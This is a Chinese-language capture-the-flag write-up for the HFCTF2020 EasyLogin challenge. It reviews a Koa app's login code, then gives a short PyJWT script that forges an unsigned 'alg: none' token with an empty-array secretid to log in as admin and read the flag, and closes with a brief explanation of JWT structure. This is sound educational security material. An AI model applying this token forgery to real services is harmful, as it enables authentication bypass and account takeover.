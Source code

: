 ```yaml
---
title: '[HFCTF2020]EasyLogin'
date: 2024-06-10 19:53:24
tags: 题解
categories: 刷题笔记
---
```


### [HFCTF2020]EasyLogin（koa&jwt欺骗）

首先我们注册一个账号登录

进去后没有flag

<!-- more -->

![image-20240610211048798](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406102110967.png)

我们查看源码

但源码并没有直接显示出来，经过一番寻找，我们发现源码在

"[/static/js/app.js](http://e2a5dc13-d8f4-4a01-bac1-b29cd605b641.node5.buuoj.cn:81/static/js/app.js)"里面

```
/**
 *  或许该用 koa-static 来处理静态文件
 *  路径该怎么配置？不管了先填个根目录XD
 */

function login() {
    const username = $("#username").val();
    const password = $("#password").val();
    const token = sessionStorage.getItem("token");
    $.post("/api/login", {username, password, authorization:token})
        .done(function(data) {
            const {status} = data;
            if(status) {
                document.location = "/home";
            }
        })
        .fail(function(xhr, textStatus, errorThrown) {
            alert(xhr.responseJSON.message);
        });
}

function register() {
    const username = $("#username").val();
    const password = $("#password").val();
    $.post("/api/register", {username, password})
        .done(function(data) {
            const { token } = data;
            sessionStorage.setItem('token', token);
            document.location = "/login";
        })
        .fail(function(xhr, textStatus, errorThrown) {
            alert(xhr.responseJSON.message);
        });
}

function logout() {
    $.get('/api/logout').done(function(data) {
        const {status} = data;
        if(status) {
            document.location = '/login';
        }
    });
}

function getflag() {
    $.get('/api/flag').done(function(data) {
        const {flag} = data;
        $("#username").val(flag);
    }).fail(function(xhr, textStatus, errorThrown) {
        alert(xhr.responseJSON.message);
    });
}
```

源码提示使用koa框架，我们了解一下koa目录的基本结构

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210413175013673.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2ZteXl5MQ==,size_16,color_FFFFFF,t_70)

我们访问controllers下的api.js找到主要逻辑代码

```
const crypto = require('crypto');
const fs = require('fs')
const jwt = require('jsonwebtoken')

const APIError = require('../rest').APIError;

module.exports = {
    'POST /api/register': async (ctx, next) => {
        const {username, password} = ctx.request.body;

        if(!username || username === 'admin'){
            throw new APIError('register error', 'wrong username');
        }

        if(global.secrets.length > 100000) {
            global.secrets = [];
        }

        const secret = crypto.randomBytes(18).toString('hex');
        const secretid = global.secrets.length;
        global.secrets.push(secret)

        const token = jwt.sign({secretid, username, password}, secret, {algorithm: 'HS256'});

        ctx.rest({
            token: token
        });

        await next();
    },

    'POST /api/login': async (ctx, next) => {
        const {username, password} = ctx.request.body;

        if(!username || !password) {
            throw new APIError('login error', 'username or password is necessary');
        }

        const token = ctx.header.authorization || ctx.request.body.authorization || ctx.request.query.authorization;

        const sid = JSON.parse(Buffer.from(token.split('.')[1], 'base64').toString()).secretid;

        console.log(sid)

        if(sid === undefined || sid === null || !(sid < global.secrets.length && sid >= 0)) {
            throw new APIError('login error', 'no such secret id');
        }

        const secret = global.secrets[sid];

        const user = jwt.verify(token, secret, {algorithm: 'HS256'});

        const status = username === user.username && password === user.password;

        if(status) {
            ctx.session.username = username;
        }

        ctx.rest({
            status
        });

        await next();
    },

    'GET /api/flag': async (ctx, next) => {
        if(ctx.session.username !== 'admin'){
            throw new APIError('permission error', 'permission denied');
        }

        const flag = fs.readFileSync('/flag').toString();
        ctx.rest({
            flag
        });

        await next();
    },

    'GET /api/logout': async (ctx, next) => {
        ctx.session.username = null;
        ctx.rest({
            status: true
        })
        await next();
    }
};
```

我们进行代码审计，发现用户必须是admin才能得到flag

![image-20240610212134851](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406102121939.png)

因此，我们需要登录admin账号

由于页面在注册时会生成一个jwt

![image-20240610212237867](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406102122894.png)

所以我们可以通过jwt欺骗来登录admin账号

我们再次登录抓包得到我们自己账号的jwt

![image-20240610212356917](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406102123961.png)

放入网站进行分析

https://jwt.io/

![image-20240610212831898](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406102128961.png)

按要修改的值修改，由于要修改alg为none，在网页上无法直接获取新的jwt，所以用python脚本生成，在此之前先用pip安装好生成jwt的库：PyJWT库。

```
import jwt
token = jwt.encode(
{
  "secretid": [],
  "username": "admin",
  "password": "123456",
  "iat": 1718025030
},
algorithm="none",key="").encode(encoding='utf-8')
 
print(token)
```

![image-20240610213646794](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406102136845.png)

我们以admin账号登录，密码为设置的值，抓包将jwt修改为我们之后修改的值

![image-20240610214456352](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406102144410.png)

登录成功后，我们访问api/flag得到flag

![image-20240610214545263](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406102145283.png)

### jwt

##### JWT的结构

- 一个JWT由三部分组成，他们之间通过一个点号"."分隔：
  - 头部Header
  - 载体Payload
  - 签名Signature
- header通常由两部分组成：token的类型，以及所使用的hash算法：

```json
{
  "alg": "HS256",
  "typ": "JWT"
}
```

- `载体(payload)`部分是我们真值想要发送的数据所在，下面是一个载体的示例，真正的载体一般会更为复杂，以确保更好的安全性。

```json
{
  "sub": "65165751325",
  "name": "Rajat S",
  "admin": true
}
```

- `签名(Signature)`用于验证数据在到达目的地之前未被更改。通常使用的私钥。
- 这三部分通常放一起编码为base64格式，并以"."分隔。想要了解更多关于`JWT`的内容，请参考https://jwt.io/。
- 现在我们对JWT有个基本的了解了，接下来看看如何搭建一个简单的验证服务器来处理JWT，提供API供我们访问。

